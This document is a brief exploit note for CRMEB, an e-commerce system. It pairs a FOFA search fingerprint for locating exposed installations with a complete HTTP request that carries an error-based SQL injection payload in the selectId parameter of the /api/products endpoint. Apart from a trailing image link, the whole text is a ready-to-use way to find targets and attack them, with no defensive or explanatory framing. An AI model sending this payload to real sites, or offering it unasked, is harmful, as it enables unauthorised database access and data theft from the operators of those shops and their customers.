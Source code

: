 # fofa
```plain
body="/wap/first/zsff/iconfont/iconfont.css" || body="CRMEB"
```

# payload
```plain
GET /api/products?limit=20&priceOrder&salesOrder&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,md5(1436528)))),0x7e),3550) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/11.1.2 Safari/605.1.15
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

# ![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727012031616-286870a7-2ccd-451c-a1a9-b818a9b8eda0.png)
